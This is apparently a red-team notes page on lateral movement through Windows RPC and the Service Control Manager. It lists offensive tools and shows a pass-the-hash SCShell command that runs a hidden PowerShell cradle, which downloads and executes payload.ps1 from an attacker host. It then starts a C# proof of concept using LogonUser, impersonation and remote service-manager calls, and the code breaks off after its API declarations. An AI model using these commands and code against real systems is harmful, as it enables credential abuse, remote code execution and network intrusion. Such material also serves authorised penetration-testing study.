 ```yaml
---
description: Remote Procedure Call
---
```


# RPC

- [https://sensepost.com/blog/2021/building-an-offensive-rpc-interface/](https://sensepost.com/blog/2021/building-an-offensive-rpc-interface/)
- [https://github.com/s0i37/lateral](https://github.com/s0i37/lateral)




## SCM

* [https://github.com/Mr-Un1k0d3r/SCShell](https://github.com/Mr-Un1k0d3r/SCShell)
* [https://github.com/juliourena/SharpNoPSExec](https://github.com/juliourena/SharpNoPSExec)
* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Fileless%20Lateral%20Movement/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Fileless%20Lateral%20Movement/Program.cs)

Using Python [implementation](https://github.com/Mr-Un1k0d3r/SCShell/blob/master/scshell.py) and PtH:

```
$ python scshell.py MEGACORP/snovvcrash@192.168.1.11 -hashes :fc525c9683e8fe067095ba2ddc971889 -service-name lfsvc
SCShell>C:\windows\system32\cmd.exe /c powershell.exe -nop -w hidden -c iex(new-object net.webclient).downloadstring('http://10.10.13.37:8080/payload.ps1')
```

Custom PoC:

{% code title="SharpSCExec.cs" %}
```csharp
using System;
using System.Runtime.InteropServices;

namespace SharpSCExec
{
    class Program
    {
        [DllImport("advapi32.dll", SetLastError = true, BestFitMapping = false, ThrowOnUnmappableChar = true)]
        [return: MarshalAs(UnmanagedType.Bool)]
        internal static extern bool LogonUser([MarshalAs(UnmanagedType.LPStr)] string lpszUsername, [MarshalAs(UnmanagedType.LPStr)] string lpszDomain, [MarshalAs(UnmanagedType.LPStr)] string lpszPassword, int dwLogonType, int dwLogonProvider, out IntPtr phToken);

        [DllImport("advapi32.dll", SetLastError = true)]
        static extern bool ImpersonateLoggedOnUser(IntPtr hToken);

        [DllImport("advapi32.dll", EntryPoint = "OpenSCManagerW", ExactSpelling = true, CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern IntPtr OpenSCManager(string machineName, string databaseName, uint dwAccess);

        [DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Auto)]
        static extern IntPtr OpenService(IntPtr hSCManager, string lpServiceName, uint dwDesiredAccess);

        [DllImport("advapi32.dll", CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern Boolean QueryServiceConfig(IntPtr hService, IntPtr intPtrQueryConfig, UInt32 cbBufSize, out UInt32 pcbBytesNeeded);
```